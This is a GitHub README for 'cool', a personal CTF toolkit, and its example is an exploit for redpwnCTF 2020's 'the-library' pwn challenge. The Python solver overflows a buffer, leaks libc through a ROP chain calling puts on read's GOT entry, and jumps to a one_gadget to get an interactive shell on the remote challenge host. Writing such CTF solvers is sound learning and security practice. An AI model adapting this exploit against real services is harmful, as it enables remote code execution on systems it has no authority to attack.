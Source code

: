 # cool - CTF toolkit for me
[![CI](https://github.com/d2verb/cool/workflows/CI/badge.svg)](https://github.com/d2verb/cool/actions)
[![License: MIT](https://img.shields.io/badge/License-MIT-blue.svg)](https://github.com/d2verb/cool/blob/master/LICENSE)

## How to install
TODO

## Example
This is an example solver to solve the pwn challenge (the-library) in redpwnCTF 2020.

```python
from cool.pwn import elf, remote
from cool.util import p64, u64

e = elf("./tmp/the-library")
l = elf("./tmp/libc.so.6")
p = remote("2020.redpwnc.tf", 31350)

pop_rdi = 0x00400733
one_gadget_offset = 0x10A38C

pld = b"A" * 0x18
pld += p64(pop_rdi)
pld += p64(e.got["read"])
pld += p64(e.plt["puts"])
pld += p64(e.symbols["main"])

# libc base leak
p.sendafter(b"name?\n", pld)
p.recvuntil(b"Hello there: ")
libc_base = u64(p.recv()[29 : 29 + 6] + b"\x00\x00") - l.symbols["read"]
print(f"[*] libc base: 0x{libc_base:x}")

# execute main again & send one_gadget RCE address
one_gadget = one_gadget_offset + libc_base
pld = b"A" * 0x18
pld += p64(one_gadget)

p.sendline(pld)
p.interact()
```

## License
MIT License